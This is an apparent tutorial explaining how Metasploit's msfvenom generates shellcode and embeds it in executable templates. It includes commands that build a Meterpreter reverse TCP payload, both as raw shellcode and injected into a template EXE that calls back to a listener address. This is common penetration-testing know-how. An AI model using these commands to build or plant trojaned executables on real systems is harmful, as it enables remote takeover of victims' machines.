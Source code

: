Metasploit's `msfvenom` tool allows you to generate various types of payloads, including shellcode, and then wrap or embed them in executable files (e.g., EXE, ELF, etc.). This process involves using binary templates where the generated shellcode is inserted into pre-structured files, resulting in a functional executable that can run the payload. Here's how this is done:

### **1. Binary Templates Overview**

A binary template is a predefined file structure that has placeholders where shellcode or payloads can be inserted. These templates can be executables, scripts, or other binary formats that Metasploit supports. The templates usually contain some basic instructions, headers, and metadata required to create a valid executable file.

### **2. Using `msfvenom` to Generate Shellcode**

The first step in embedding shellcode into a binary is to generate the shellcode using `msfvenom`. This can be done with a variety of payloads and configurations.

Example:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shellcode.bin
```

This command generates raw shellcode for a Meterpreter reverse TCP payload and outputs it to a file named `shellcode.bin`.

### **3. Selecting a Binary Template**

To create an executable, `msfvenom` uses templates from predefined binary files. These templates can be specified using the `-x` option. If not specified, `msfvenom` may use its default templates.

Example:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -x /path/to/template.exe -f exe -o payload.exe
```

In this example:
- `-x /path/to/template.exe` specifies the template executable file.
- `-f exe` tells `msfvenom` to output the final file as an executable (`.exe`).
- `-o payload.exe` specifies the output filename.

### **4. Embedding Shellcode into the Template**

When `msfvenom` creates the final executable, it injects the generated shellcode into the template file. The shellcode is typically inserted at a predefined location or injected in a way that doesn't disrupt the original functionality of the template executable (if any).

The steps involved:
- **Load Template**: `msfvenom` reads the binary template file.
- **Locate Insertion Point**: It identifies where in the binary the shellcode should be placed.
- **Inject Shellcode**: The raw shellcode is inserted into the template at the appropriate location.
- **Adjust Headers/Metadata**: If necessary, `msfvenom` adjusts the binary's headers, entry points, or other metadata to ensure the shellcode will execute when the binary is run.
- **Finalize**: The modified binary is saved as the output file, now containing the embedded payload.
